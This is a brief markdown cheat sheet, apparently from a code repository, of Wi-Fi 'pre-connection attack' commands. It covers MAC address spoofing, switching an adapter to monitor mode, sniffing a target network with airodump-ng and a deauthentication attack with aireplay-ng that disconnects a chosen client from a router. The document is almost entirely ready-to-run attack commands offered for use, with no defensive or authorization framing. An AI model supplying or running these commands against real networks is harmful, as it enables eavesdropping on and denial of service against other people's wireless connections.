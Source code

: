 
# Pre-connection attacks

## Change mac address

- Disable the interface
```
ifconfig wlan0 down
```

- Change the mac address
```
ifconfig wlan0 hw ether <new_mac_address>
```

- Enable the interface
```
ifconfig wlan0 up
```

## Change wireless mode to monitor (ifconfig method)

- Disable wireless interface (change wlan0 to the interface you want to use)
```
ifconfig wlan0 down
```

- Kill all processes that can interfere using the interface
```
airmon-ng check kill
```

- Change mode to monitor
```
iwconfig wlan0 mode monitor
```
if this command does not work use this alternative:
```
airmon-ng start wlan0
```

- Enable the interface
```
ifconfig wlan0 up
```

## Packet sniffing

- Change wireless adapter to monitor mode

- Listen to all wireless network (change mon0 to the interface you want to use)
```
airodump-ng mon0
```
This will sniff on the 2.4GHz band, if you want to sniff on all bands modify the command like this:
```
airodump-ng --band abg mon0
```

- Listen to a specific network
```
airodump-ng --bssid <target-network-bssid> --channel <target-network-channel> --write <filename> mon0
```
--write option: export result to file

## Deauthentication attack
- Deauthenticate the target machine (client-mac-addr) from the router (target-mac-addr)<br>
If is running on 5GHz add -D.<br>
Higher the number of packets is longer we keep the target disconnected<br>
(change mon0 to the inteface you want to use)
```
aireplay-ng --deauth <packet-number> -a <target-mac-addr> -c <client-mac-addr> mon0
```
sometimes this command can fail if airodump-ng is not running against the target network
